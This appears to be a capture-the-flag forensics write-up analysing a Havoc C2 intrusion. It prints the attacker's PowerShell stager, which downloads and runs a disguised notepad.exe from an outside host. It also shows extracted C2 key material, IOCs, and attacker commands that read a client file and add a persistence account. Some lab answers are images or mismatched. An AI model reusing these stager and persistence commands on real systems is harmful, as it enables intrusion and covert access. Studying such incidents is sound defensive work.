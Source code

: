 - **install.ps1**

![[../../Image/Pasted image 20250423091359.png]]

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```
- **Object list:**
![[../../Image/Pasted image 20250423095009.png]]
- **notepad.exe**
![[../../Image/Pasted image 20250423100437.png]]
- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address:**
- hxxp[:]//10.0.2.37
#### **File:**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![](../../Image/Pasted%20image%2020250423101528.png)

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![](../../Image/Pasted%20image%2020250423105228.png)
=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![](../../Image/Pasted%20image%2020250423105244.png)

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![](../../Image/Pasted%20image%2020250423105304.png)
```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![](../../Image/Pasted%20image%2020250423105347.png)
=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![](../../Image/Pasted%20image%2020250423105335.png)
=> **C:\Users\paco\Desktop\Files\clients.csv**


